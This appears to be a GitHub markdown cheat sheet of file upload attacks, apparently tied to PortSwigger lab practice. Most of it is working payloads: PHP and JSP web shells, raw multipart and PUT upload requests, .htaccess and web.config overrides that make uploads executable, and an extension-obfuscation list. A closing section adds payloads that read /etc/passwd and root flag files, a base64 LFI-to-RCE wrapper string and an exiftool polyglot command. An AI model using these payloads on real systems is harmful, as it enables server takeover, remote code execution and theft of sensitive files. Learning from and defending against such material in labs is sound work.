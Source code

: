 # **File Upload Vulnerability**

## **Index**

1. [PHP Web Shell Upload](#1-php-web-shell-upload)  
2. [Image Upload with Embedded PHP Code](#2-image-upload-with-embedded-php-code)  
3. [Bypassing Content-Type Validation](#3-bypassing-content-type-validation)
4. [Uploading Files via Path Traversal Vulnerability](#4-uploading-files-via-path-traversal-vulnerability)  
5. [Uploading Files Using PUT](#5-uploading-files-using-put) 
6. [Exploiting Server Configuration](#6-exploiting-server-configuration)  
     - [Apache Bypass](#apache-bypass)  
     - [IIS Bypass](#iis-bypass)  
7. [Obfuscating File Extensions](#7-obfuscating-file-extensions)
8. [File Content Exploit Via Polyglot](#8-File-Content-Exploit-Via-Polyglot)
9. [SSRF By Uploading Url Instead Of Picture](#9-SSRF-By-Uploading-url-instead-of-picture)
10. [PHP Payloads for RCE](#10-php-payloads-for-rce)
---
### **1. PHP Web Shell Upload**

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```

In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

---

### **2. Image Upload with Embedded PHP Code**

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```

The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

---

### **3. Bypassing Content-Type Validation**

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```

Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

---

### **4. Uploading Files via Path Traversal Vulnerability**

In some cases, you can exploit file upload vulnerability via path traversal:  
- `filename="../exploit.php"`  
- URL encoding: `filename="..%2fexploit.php"`

---

### **5. Uploading Files Using PUT**

```text
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
### **6. Exploiting Server Configuration**

#### **Apache Bypass**
```text
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell

Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

#### **IIS Bypass**
```text
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>

Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

Reference: [Portswigger Lab Overriding the server configuration](https://portswigger.net/web-security/file-upload#overriding-the-server-configuration)

---

### **7. Obfuscating File Extensions**
```text
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
.php.
exploit.asp;.jpg
exploit.asp%00.jpg
```

Reference : [Portswigger](https://portswigger.net/web-security/file-upload#obfuscating-file-extensions)

---

### **8. File Content Exploit Via Polyglot**
<br>

For more details: [Portswigger](https://portswigger.net/web-security/file-upload#flawed-validation-of-the-file-s-contents)

### **9. SSRF By Uploading Url Instead Of Picture**

In some cases we can exploit SSRF via file upload vulnerability. In this case we need to change `type:file to type:url` and add a image url.<br>
<br>
Here is a h1 POC: [Upload profile photo from URL](https://hackerone.com/reports/713)

### **10. PHP Payloads for RCE**

```php
<?php echo exec('sudo cat /root/flag.txt'); ?> // Execute command and give output
<?php echo file_get_contents('/etc/passwd'); ?> // To read files
<?php system($_GET['cmd']); ?> // For system command
<?php passthru($_GET['cyborg71']); ?> // For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls // LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```
---


